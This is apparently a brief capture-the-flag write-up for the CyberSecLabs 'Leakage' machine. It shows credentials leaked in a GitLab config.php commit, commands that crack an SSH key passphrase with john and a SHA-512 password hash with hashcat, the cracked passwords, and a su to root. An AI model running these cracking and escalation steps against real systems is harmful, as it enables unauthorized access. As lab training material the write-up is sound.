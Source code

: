 # CyberSecLabs: Leakage


http://172.31.1.6/jonathan/CMS/-/commit/e2e3115dd0ea56b0b6dd8f919b258fc1b849776e

config.php commit:

```
define('URL_ADMIN',PROTOCOL.'doorgets.prod:8888/');
define('URL_USER',PROTOCOL.'doorgets.prod:8888/dg-user/');
define('SQL_HOST','localhost');
define('SQL_LOGIN','root');
define('SQL_PWD','root');
define('SQL_LOGIN','jonathan');
define('SQL_PWD','rPHAKWAgMZtjr9at');
define('SQL_DB','doorgets-prod01');
define('SQL_VERSION','5.5.42');
require_once CONFIGURATION.'includes.php';
```
Login with this cred:
```
jonathan:rPHAKWAgMZtjr9at
```

After logging in visit ```http://172.31.1.6/jonathan/security```



```zsh
 python /usr/share/john/ssh2john.py id_rsa  > idrsa
```
```zsh
john idrsa --wordlist /usr/share/wordlists/rockyou.txt
```
```
Press 'q' or Ctrl-C to abort, almost any other key for status                                                      
scooby           (id_rsa) 
```

Run winpeas
/bin/nano -- red and yellow. Hence 99 percent PE vector.

```zsh
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt --force
```
Cracked hash
```
$6$yMsg6cpK$q52od6Zj/FhqmmsuVZ7pKvGJ2o2R/kieZ3SQ/QWWbdn2eVFCTewYvjKBd2P4jfsh9IYwelJoPevGpQCsA2NT61:chocolate
```

su root
enter pass
